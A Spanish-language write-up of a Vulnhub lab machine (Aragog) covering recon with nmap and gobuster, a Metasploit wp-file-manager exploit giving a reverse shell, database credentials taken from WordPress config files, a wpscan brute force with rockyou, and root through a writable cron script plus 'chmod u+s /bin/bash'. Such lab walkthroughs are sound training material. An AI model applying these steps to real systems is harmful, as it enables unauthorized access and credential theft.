Tiramos nuestra rutina de reconocimiento con nmap: 

```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.101 -oN Target 

grep '^[1-9]' Target | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','

nmap -sCV -p21,22,2222,80,9898 192.168.1.101 -oN TargetsCV
```

Gracias a nmap, vemos que hay un servicio ssh y un servicio http

```bash
PORT   STATE SERVICE REASON         VERSION  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)  
| ssh-hostkey:    
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSJJ1ZAbIA3lP2RbpxnhknzLJqrHne4be3xTLmVEXWg7YQ6FFZ/RA1VzmrFYPlvB1t1XwopptI+nA9BSG5+hllLyCQ1pDZkhIwyGHuBLZETD8cIJTlsxVCwnh67h7eeK4hTEtjp1rUodK30juDf5  
u7JnkwVfo78LvM8WV1LjVrmhsZiqzy1CxAoMFpiRp3ZlvpblL3gdd0wgSNrGqEwc6qJc6Z+RKGkLbnpgTnOsc6vGLs1xFOGrHF2qFeDpUWti0ZDSN31LtP1HtNItbBKSECcFD3KrN8nPaZCa2V9GA1jrpOOAF1j0ehcRlBoFqLZzQbO9RFeIkgqGNrz3  
PDt7vp  
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBESZsj5u/F88CLIXTeBD8OgiCM2u8sKBgbvvjKccwFmCBMh3GmOHGP8qzzQwVTMkq1aN0WSIk7h8/cHCT2tZLzE=  
|   256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMsH4OtBIy/He42Rc6KvtI6w2855JMLVloVFy5/0Rtj4  
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))  
| http-methods:    
|_  Supported Methods: GET POST OPTIONS HEAD  
|_http-title: Site doesn't have a title (text/html).  
|_http-server-header: Apache/2.4.38 (Debian)  
MAC Address: 08:00:27:DD:94:52 (Oracle VirtualBox virtual NIC)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el servicio http no vemos nada, vamos a fuzzear con gobuster a ver si encontramos algo:

```bash
gobuster dir -u "http://192.168.2.72/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 20  
===============================================================  
Gobuster v3.6  
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url:                     http://192.168.2.72/  
[+] Method:                  GET  
[+] Threads:                 20  
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt  
[+] Negative Status codes:   404  
[+] User Agent:              gobuster/3.6  
[+] Timeout:                 10s  
===============================================================  
Starting gobuster in directory enumeration mode  
===============================================================  
/blog                 (Status: 301) [Size: 311] [--> http://192.168.2.72/blog/]  
/javascript           (Status: 301) [Size: 317] [--> http://192.168.2.72/javascript/]  
/server-status        (Status: 403) [Size: 277]  
Progress: 224213 / 1185255 (18.92%)^C  
[!] Keyboard interrupt detected, terminating.  
Progress: 226628 / 1185255 (19.12%)  
===============================================================  
Finished  
===============================================================
```


Encontramos la ruta hacia /blog, vamos a ver que hay

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a1baa27a-23a2-4239-a102-231170506ced" width="250" height="250">

No nos resuelve, así que vamos a ver el código fuente en busca de el nombre del host para poder meterlo dentro de nuestro /etc/hosts y así poder ver bien la página web. Al parecer hay un dominio **aragog.hogwarts** y un subdominio **wordpress.aragog.hogwarts** >> /etc/hosts. Una vez dentro del blog podemos ver que es un wordpress y ademas que la url de inicio de la administración de wordpress esta por defecto en /wp-admin. Tiramos un whatweb para ver que versión de wordpress es:

```bash
whatweb http://wordpress.aragog.hogwarts/blog
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f6ade782-0eec-4884-9a57-600b7da00300" width="1000" height="100">

Tiramos un searchsploit  y encontramos los siguientes scripts:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/bcbe6367-b017-4b5a-8469-b536742d92be)

Antes de ver estos sploits, vamos a ver que nos dice wpscan:

```bash
wpscan --url http://wordpress.aragog.hogwarts/blog -e vp,u --api-token="APItoken"
```

<img src="https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/407e2201-4858-4d53-ac69-3c2f667f5403" width="500" height="500">

wpscan nos reporta un montón de vulnerabilidades, vamos a escoger una que pinte bien :)

He probado muchas de las vulnerabilidades que hay en el wpscan y al parecer son falsos positivos, vamos a probar ocn mi siguiente opción que es el scanner de Metasploit:

`scanner/http/wordpress_scanner`

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/605653bd-9d51-45c5-95fc-5178a75c2775)

Encontramos en este scanner la siguiente vulnerabilidad `wp-file-manager`

En el mismo Metasploit vemos que existe un exploit que explota esta vulnerabilidad, pero antes de ejecutarlo vamos a ver que hace:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/4049d8a3-4811-4b49-91cf-29c85d92c10f)

viendo un poco por encima el exploit lo que hace es meter un archivo malicioso en wordpress ubicado en **/wp-content/plugins/wp-file-manager/lib/files/malicioso.php** ejecutarlo y una vez que nos entable la reverse shell lo elimina, pues vamos a ejecutarlo a ver que pasa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/fcfa2dbf-ab74-45e4-a1c3-aae753c22892)

Hacemos una reverse shell hacia mi máquina por comodidad: 

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/f2764571-fe98-47b0-91c8-2e5da10fd86c)

Ahora con una consola mucho mas usable, pues lo primero que vamos hacer al saber que es un wordpress es buscar el archivo wp-config.php, dentro de el vemos una ruta muy interesante llamada config-default.php

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d790eaef-837e-4a94-b883-bc76c8771d22)

Dentro de este archivo pues se empieza a calentar la cosa:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/28f0ab92-0cb7-453b-9790-4cc6acdf431d)

acabamos de sacar las credenciales de la base de datos de el wordpress, vamos a ver que hay dentro

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/17c61c3c-1d04-4beb-bb7c-0c8217d8f949)

dentro encontramos una password encriptada y un usuario con el que supongo que podemos entrar al wordpress, ahora con un usuario valido vamos a probar a hacer una fuerza bruta con el diccionario rockyou:

```bash
wpscan --url "http://192.168.1.101/blog" -U hagrid98 -P /usr/share/wordlists/rockyou.txt --api-token="ApiToken"
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/5a83444f-8ed1-4d67-8d68-0160db64c0a5)


Una vez hecha la fuerza bruta, conseguimos la contraseña xd, vamos a entrar por ssh a ver si toca la flauta y efectivamente se conecta al ssh:

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/d8af0a03-e81b-4c49-b085-614725db479b?with=250)

Conseguimos la flag de user, vamos a por el ruteo, empiezo con sudo -l el cual me dice que no esta instalado sudo en la máquina, buscamos por permisos SUID (find / -perm -4000 -ls 2>/dev/null) pues vamos a por tareas cron mi favorito, creamos el siguiente script para identificar tareas cron:

```bash
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/a662c4b5-599c-4588-99d1-9f68793fb228?with=50)


y como vemos hay un script que cada cierto tiempo se ejecuta con privilegios... pues tan simple como meter dentro de este script **chmod u+s /bin/bash** y la próxima vez que se ejecute la bash va a tener permisos SUID y si ejecutamos bash -p vamos a conseguir una consola como administrador.

![image](https://github.com/ManuGalan/HarryPotter-Maquinas-Vulnhub/assets/96147300/557f5f7f-9578-44c9-be2d-5fb67ded3356?with=100)


